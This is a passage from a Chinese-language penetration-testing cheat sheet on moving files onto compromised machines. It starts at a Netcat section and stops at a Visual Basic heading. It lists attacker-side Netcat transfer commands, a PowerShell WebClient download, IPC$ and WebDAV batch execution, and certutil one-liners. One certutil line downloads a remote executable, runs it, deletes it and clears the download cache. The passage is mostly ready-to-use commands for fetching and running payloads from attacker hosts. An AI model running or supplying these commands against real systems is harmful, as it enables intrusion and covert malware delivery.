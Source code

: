 #### 2.10 Netcat

攻击者的电脑上输入：

```
cat file | nc -l 1234
```

> 这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。

目标电脑上的命令：

```
nc host_ip 1234 > file
```

这条命令将连接攻击者的电脑，接受 file 内容保存。

### 3. Windows

#### 3.1 Powershell

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

下面这两条指令实现了从 Internet 网络下载一个文件。

```
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file")
```

#### 3.2 IPC$

```
copy \192.168.3.1\c$\test.exe E:\file

cmd.exe /k < \webdavserver\folder\batchfile.txt
```

#### 3.3 Certutil

可以应用到: Windows Server 2003, Windows Server 2003 R2, Windows Server 2003 with SP1, Windows Server 2003 with SP2

```
certutil -urlcache -split -f http://192.168.3.1/test.exe file.exe
certutil -urlcache -split -f http://192.168.3.1/test.exe delete      #删除缓存

certutil -verifyctl -split -f -split http://192.168.3.1/test.exe
#此条命令，会将原文件下载成为临时 bin 文件，把名字改回来一样可以正常运行
```

文件下载并执行如下：

```
certutil -urlcache -split -f http://site.com/a a.exe && a.exe &&  del a.exe && certutil -urlcache -split -f http://192.168.254.102:80/a delete
```

#### 3.4 Visual Basic
